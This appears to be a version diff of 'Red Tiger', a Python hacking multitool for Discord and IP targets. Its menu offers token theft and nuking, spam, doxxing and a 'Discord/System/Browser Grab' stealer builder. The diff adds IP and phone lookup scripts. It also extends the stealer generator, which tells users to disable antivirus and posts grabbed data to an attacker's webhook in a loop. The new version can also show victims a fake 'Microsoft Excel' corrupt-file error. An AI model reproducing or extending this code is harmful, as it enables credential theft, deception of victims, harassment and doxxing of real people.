

2.4.0

diff --git a/Settings/Start.py b/Settings/Start.py
@@ -43,14 +43,14 @@ try:
                                       
    {color.WHITE}[{color.RED}01{color.WHITE}] {color.RED}->{color.WHITE} Tool Info                      {color.WHITE}[{color.RED}11{color.WHITE}] {color.RED}->{color.WHITE} Discord Token To Id            {color.WHITE}[{color.RED}21{color.WHITE}] {color.RED}->{color.WHITE} Discord House Changer
    {color.WHITE}[{color.RED}02{color.WHITE}] {color.RED}->{color.WHITE} Web Site                       {color.WHITE}[{color.RED}12{color.WHITE}] {color.RED}->{color.WHITE} Discord Token Generator        {color.WHITE}[{color.RED}22{color.WHITE}] {color.RED}->{color.WHITE} Discord Nitro Generator
-   {color.WHITE}[{color.RED}03{color.WHITE}] {color.RED}->{color.WHITE} Ip Localisation                {color.WHITE}[{color.RED}13{color.WHITE}] {color.RED}->{color.WHITE} Discord Token Info             {color.WHITE}[{color.RED}23{color.WHITE}] {color.RED}->{color.WHITE} Discord Server Nuker Bot (soon)
+   {color.WHITE}[{color.RED}03{color.WHITE}] {color.RED}->{color.WHITE} Ip Info                        {color.WHITE}[{color.RED}13{color.WHITE}] {color.RED}->{color.WHITE} Discord Token Info             {color.WHITE}[{color.RED}23{color.WHITE}] {color.RED}->{color.WHITE} Discord Bot Server Nuker (soon)
    {color.WHITE}[{color.RED}04{color.WHITE}] {color.RED}->{color.WHITE} Ip Pinger                      {color.WHITE}[{color.RED}14{color.WHITE}] {color.RED}->{color.WHITE} Discord Token Login            {color.WHITE}[{color.RED}24{color.WHITE}] {color.RED}->{color.WHITE} Discord Invite Bot To Id
    {color.WHITE}[{color.RED}05{color.WHITE}] {color.RED}->{color.WHITE} Ip Generator                   {color.WHITE}[{color.RED}15{color.WHITE}] {color.RED}->{color.WHITE} Discord Token Nuker            {color.WHITE}[{color.RED}25{color.WHITE}] {color.RED}->{color.WHITE} Dox Create
-   {color.WHITE}[{color.RED}06{color.WHITE}] {color.RED}->{color.LIGHTYELLOW_EX} Discord/System/Browser Grab    {color.WHITE}[{color.RED}16{color.WHITE}] {color.RED}->{color.WHITE} Discord Mass Dm                {color.WHITE}[{color.RED}26{color.WHITE}] {color.RED}->{color.WHITE}
+   {color.WHITE}[{color.RED}06{color.WHITE}] {color.RED}->{color.LIGHTYELLOW_EX} Discord/System/Browser Grab    {color.WHITE}[{color.RED}16{color.WHITE}] {color.RED}->{color.WHITE} Discord Mass Dm                {color.WHITE}[{color.RED}26{color.WHITE}] {color.RED}->{color.WHITE} Number Info
    {color.WHITE}[{color.RED}07{color.WHITE}] {color.RED}->{color.WHITE} Discord Webhook Generator      {color.WHITE}[{color.RED}17{color.WHITE}] {color.RED}->{color.WHITE} Discord Spam Message Channel   {color.WHITE}[{color.RED}27{color.WHITE}] {color.RED}->{color.WHITE}
    {color.WHITE}[{color.RED}08{color.WHITE}] {color.RED}->{color.WHITE} Discord Webhook Info           {color.WHITE}[{color.RED}18{color.WHITE}] {color.RED}->{color.WHITE} Discord Status Changer         {color.WHITE}[{color.RED}28{color.WHITE}] {color.RED}->{color.WHITE}
    {color.WHITE}[{color.RED}09{color.WHITE}] {color.RED}->{color.WHITE} Discord Webhook Spammer        {color.WHITE}[{color.RED}19{color.WHITE}] {color.RED}->{color.WHITE} Discord Language Changer       {color.WHITE}[{color.RED}29{color.WHITE}] {color.RED}->{color.WHITE}
-   {color.WHITE}[{color.RED}10{color.WHITE}] {color.RED}->{color.WHITE} Discord Webhook Create         {color.WHITE}[{color.RED}20{color.WHITE}] {color.RED}->{color.WHITE} Discord Theme Changer          {color.WHITE}[{color.RED}30{color.WHITE}] {color.RED}->{color.WHITE}                                         
+   {color.WHITE}[{color.RED}10{color.WHITE}] {color.RED}->{color.WHITE} Discord Webhook Create         {color.WHITE}[{color.RED}20{color.WHITE}] {color.RED}->{color.WHITE} Discord Theme Changer          {color.WHITE}[{color.RED}30{color.WHITE}] {color.RED}-> Next Page                                       
     
 """)
 
@@ -61,7 +61,7 @@ try:
    elif choice in ['2', '02']:
       StartProgram("WebSite.py")
    elif choice in ['3', '03']:
-      StartProgram("IpLocalisation.py")
+      StartProgram("IpInfo.py")
    elif choice in ['4', '04']:
       StartProgram("IpPinger.py")
    elif choice in ['5', '05']:
@@ -106,8 +106,8 @@ try:
       StartProgram("DiscordInviteBotToId.py")
    elif choice in ['25']:
       StartProgram("DoxCreate.py")
-   elif choice in ['']:
-      StartProgram("")
+   elif choice in ['26']:
+      StartProgram("NumberInfo.py")
    elif choice in ['']:
       StartProgram("")
 except:

diff --git a/Settings/Program/IpInfo.py b/Settings/Program/IpInfo.py
@@ -1,0 +1,54 @@
+from Config.Util import *
+from Config.Config import *
+from urllib.request import Request, urlopen
+from json import *
+import requests
+import webbrowser
+
+ip = input(f"{color.RED}\n[?] | Ip -> {color.RESET}")
+
+response = requests.get(f"http://ip-api.com/json/{ip}")
+data = response.json()
+status = data["status"]
+if status in ["fail"]:
+    status = "Invalid"
+    ip_adress, country, country_code, region, region_code, city, zip_postal, latitude, longitude, timezone, isp, org, as_number, url_position = "None", "None", "None", "None", "None", "None", "None", "None", "None", "None", "None", "None", "None", "None", 
+else:
+    status = "Valid"
+    ip_adress = data["query"]
+    country = data["country"]
+    country_code = data["countryCode"]
+    region = data["regionName"]
+    region_code = data["region"]
+    city = data["city"]
+    zip_postal = data["zip"]
+    latitude = data["lat"]
+    longitude = data["lon"]
+    timezone = data["timezone"]
+    isp = data["isp"]
+    org = data["org"]
+    as_number = data["as"]
+    url_position = f"https://www.google.com/maps/search/?api=1&query={latitude},{longitude}"
+
+print(f"""
+{color.WHITE}[{color.RED}+{color.WHITE}]{color.RED} Ip        : {color.WHITE}{ip}{color.RED}
+{color.WHITE}[{color.RED}+{color.WHITE}]{color.RED} Status    : {color.WHITE}{status}{color.RED}
+{color.WHITE}[{color.RED}+{color.WHITE}]{color.RED} Country   : {color.WHITE}{country} ({country_code}){color.RED}
+{color.WHITE}[{color.RED}+{color.WHITE}]{color.RED} Region    : {color.WHITE}{region} ({region_code}){color.RED}
+{color.WHITE}[{color.RED}+{color.WHITE}]{color.RED} Zip       : {color.WHITE}{zip_postal}{color.RED}
+{color.WHITE}[{color.RED}+{color.WHITE}]{color.RED} City      : {color.WHITE}{city}{color.RED}
+{color.WHITE}[{color.RED}+{color.WHITE}]{color.RED} Longitude : {color.WHITE}{longitude}{color.RED}
+{color.WHITE}[{color.RED}+{color.WHITE}]{color.RED} Latitude  : {color.WHITE}{latitude}{color.RED}
+{color.WHITE}[{color.RED}+{color.WHITE}]{color.RED} Timezone  : {color.WHITE}{timezone}{color.RED}
+{color.WHITE}[{color.RED}+{color.WHITE}]{color.RED} Isp       : {color.WHITE}{isp}{color.RED}
+{color.WHITE}[{color.RED}+{color.WHITE}]{color.RED} Org       : {color.WHITE}{org}{color.RED}
+{color.WHITE}[{color.RED}+{color.WHITE}]{color.RED} As        : {color.WHITE}{as_number}{color.RED}
+""")
+choice = input(f"{color.RED}[?] | Open google map (y/n) -> {color.RESET}")
+if choice in ["y", "Y", "yes", "Yes", "YES" ]:
+    webbrowser.open(url_position)
+    Continue()
+    Reset()
+else:
+ Continue()
+ Reset()

diff --git a/Settings/Program/NumberInfo.py b/Settings/Program/NumberInfo.py
@@ -1,0 +1,49 @@
+from Config.Util import *
+from Config.Config import *
+import phonenumbers
+from phonenumbers import geocoder, carrier, timezone
+
+phone_number = input(f"{color.RED}\n[?] | Phone Number -> {color.RESET}")
+try:
+    parsed_number = phonenumbers.parse(phone_number, None)
+    if phonenumbers.is_valid_number(parsed_number):
+        if phone_number.startswith("+"):
+            country_code = "+" + phone_number[1:3] 
+        else:
+            country_code = "None"
+        operator = carrier.name_for_number(parsed_number, "fr")
+        type_number = "Mobile" if phonenumbers.number_type(parsed_number) == phonenumbers.PhoneNumberType.MOBILE else "Fixe"
+        timezones = timezone.time_zones_for_number(parsed_number)
+        timezone_info = timezones[0] if timezones else None
+        country = phonenumbers.region_code_for_number(parsed_number)
+        region = geocoder.description_for_number(parsed_number, "fr")
+        formatted_number = phonenumbers.format_number(parsed_number, phonenumbers.PhoneNumberFormat.NATIONAL)
+        status = "Valid"
+    else:
+        formatted_number = "None"
+        region = "None"
+        country = "None"
+        operator = "None"
+        type_number = "None"
+        timezone_info = "None"
+        country_code = "None"
+        status = "Invalid"
+
+
+    print(f"""
+{color.WHITE}[{color.RED}+{color.WHITE}]{color.RED} Phone        : {color.WHITE}{phone_number}{color.RED}
+{color.WHITE}[{color.RED}+{color.WHITE}]{color.RED} Formatted    : {color.WHITE}{formatted_number}{color.RED}
+{color.WHITE}[{color.RED}+{color.WHITE}]{color.RED} Status       : {color.WHITE}{status}{color.RED}
+{color.WHITE}[{color.RED}+{color.WHITE}]{color.RED} Country Code : {color.WHITE}{country_code}{color.RED}
+{color.WHITE}[{color.RED}+{color.WHITE}]{color.RED} Country      : {color.WHITE}{country}{color.RED}
+{color.WHITE}[{color.RED}+{color.WHITE}]{color.RED} Region       : {color.WHITE}{region}{color.RED}
+{color.WHITE}[{color.RED}+{color.WHITE}]{color.RED} Timezone     : {color.WHITE}{timezone_info}{color.RED}
+{color.WHITE}[{color.RED}+{color.WHITE}]{color.RED} Operator     : {color.WHITE}{operator}{color.RED}
+{color.WHITE}[{color.RED}+{color.WHITE}]{color.RED} Type Number  : {color.WHITE}{type_number}{color.RED}
+""")
+    Continue()
+    Reset()
+except:
+    print(f"{color.RED}[!] | Invalid Number Format ! [Format: {color.WHITE}+(country_code)(number){color.RED}] [Ex: {color.WHITE}+442012345678{color.RED} or {color.WHITE}+33623456789]")
+    Continue()
+    Reset()

diff --git a/Settings/Program/StealerCreate.py b/Settings/Program/StealerCreate.py
@@ -7,11 +7,19 @@ from tkinter import Tk, filedialog
 
 Title("Discord/System/Browser Grab")
 
-print(f"{color.RED}Disable your antivirus !")
+print(f"{color.RED}\nDisable your antivirus !")
 
 webhook = input(f"\n{color.RED}[?] | URL Webhook -> {color.RESET}")
 name_file = input(f"{color.RED}[?] | File Name -> {color.RESET}")
 icone = input(f"{color.RED}[?] | Add an Icon (y/n) -> {color.RESET}")
+fake_error = input(f"{color.RED}[?] | Simulate an error (y/n) -> {color.RESET}")
+if fake_error in ['y', 'Y', 'Yes', 'yes', 'YES']:
+   title = input(f"{color.RED}[?] | Error message title (enter for default) -> {color.RESET}")
+   descritpion = input(f"{color.RED}[?] | Description of the error message (enter for default) -> {color.RESET}")
+   if not descritpion.strip():
+      descritpion = "The file is corrupt and cannot be opened."
+   if not title.strip():
+      title = "Microsoft Excel"
 
 if not name_file.strip():
     random_number = random.randint(1, 1000)
@@ -1398,7 +1406,24 @@ payload = {
     'avatar_url': avatar_embed,
 }
 requests.post(webhook_url, json=payload)
-
+''')
+ 
+ if fake_error in ['y', 'Y', 'Yes', 'yes', 'YES']:
+    file.write(f'''
+file = "Error.vbs"
+code = """
+x=msgbox("{descritpion}", 16, "{title}")
+"""
+try:
+    with open(file, "w") as filevbs:
+        filevbs.write(code)
+    subprocess.run(["cscript", file], shell=True)
+    os.remove(file)
+except:
+    ()
+''')
+    
+ file.write(r"""
 while True:
 
     time.sleep(300)
@@ -1433,8 +1458,7 @@ while True:
     'avatar_url': avatar_embed,
     }
     requests.post(webhook_url, json=payload)
-''')
-
+""")
 with open(file_text, 'r', encoding='utf-8') as file_txt:
     contenu = file_txt.read()
 

diff --git a/Settings/Program/IpGenerator.py b/Settings/Program/IpGenerator.py
@@ -21,7 +21,7 @@ def send_embed_webhook(webhook_url, embed_content, username=None, url=None):
                 response = requests.post(webhook_url, data=json.dumps(payload), headers=headers)
 username = 'Red Tiger'
 url = 'https://cdn.discordapp.com/attachments/1184160374342299688/1184160439001686056/IMG_1506.png?ex=658af659&is=65788159&hm=9a0297ee590e78acbafc75bc4686ce2b553e40a2f2a850101378a09f23e32d08&'
-webhook = input(f"{color.RED}\n[?] | Webhook ? (y, n) -> {color.RESET}")
+webhook = input(f"{color.RED}\n[?] | Webhook (y/n) -> {color.RESET}")
 if webhook in ['y']:
     webhook_url = input(f"{color.RED}[?] | URL Webhook -> {color.RESET}")
 def ping_ip(ip_address, nombre):

diff --git a/Settings/Program/DiscordWebhookGenerator.py b/Settings/Program/DiscordWebhookGenerator.py
@@ -23,7 +23,7 @@ username = 'Red Tiger'
 url = 'https://cdn.discordapp.com/attachments/1184160374342299688/1184160439001686056/IMG_1506.png?ex=658af659&is=65788159&hm=9a0297ee590e78acbafc75bc4686ce2b553e40a2f2a850101378a09f23e32d08&'
 
 
-choixwebhook = input(f"{color.RED}\n[?] | Webhook ? (y, n) -> {color.RESET}")
+choixwebhook = input(f"{color.RED}\n[?] | Webhook (y/n) -> {color.RESET}")
 if choixwebhook in ['y', 'Y','Yes','yes']:
     webhook_url = input(f"{color.RED}[?] | URL Webhook -> {color.RESET}")
 

diff --git a/Settings/Program/Config/Config.py b/Settings/Program/Config/Config.py
@@ -1,5 +1,5 @@
 name_tool = "Red Tiger"
-version_tool = "2.3.0"
+version_tool = "2.4.0"
 coding_tool = "Python"
 language_tool = "EN"
 creator = "FluzyTeck"
